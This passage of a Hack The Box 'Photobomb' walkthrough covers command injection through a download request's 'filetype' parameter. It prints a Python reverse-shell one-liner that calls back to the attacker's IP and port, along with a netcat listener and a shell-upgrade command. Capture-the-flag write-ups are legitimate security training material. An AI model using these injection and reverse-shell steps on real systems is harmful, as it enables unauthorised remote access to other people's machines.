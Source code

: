 ![images](post/Photobomb_HTB/imgs/5.JPG)

## Exploitation

Let's start burpsuite and intercept the downloading request.

![req1](post/Photobomb_HTB/imgs/6.JPG)

### Command Injection

So, I have tried to command inject all the parameters with adding **;ls** at the end of each parameter and see what happens.

Beginning with **photo** parameter:

![req2](post/Photobomb_HTB/imgs/7.JPG)

looks not injectable, Then trying on **dimensions** parameter:

![req3](post/Photobomb_HTB/imgs/8.JPG)

Also, Not injectable.

Lastly, The **filetype** parameter:

![req4](post/Photobomb_HTB/imgs/9.JPG)

It shows no response, so, It is _injectable_.

Let's prepare the **reverse shell**:

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.23",4321));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

And setup the **listener**:

```bash
$ nc -nlvp 4321       
listening on [any] 4321 ...
```

![req5](post/Photobomb_HTB/imgs/10.JPG)

And we got the **reverse shell**. Yay!

![revshell](post/Photobomb_HTB/imgs/11.JPG)

Let's respawn a **tty**:
```bash
$ /usr/bin/script -qc /bin/bash /dev/null
/usr/bin/script -qc /bin/bash /dev/null
wizard@photobomb:~/photobomb$ id
id
uid=1000(wizard) gid=1000(wizard) groups=1000(wizard)
wizard@photobomb:~/photobomb$
```
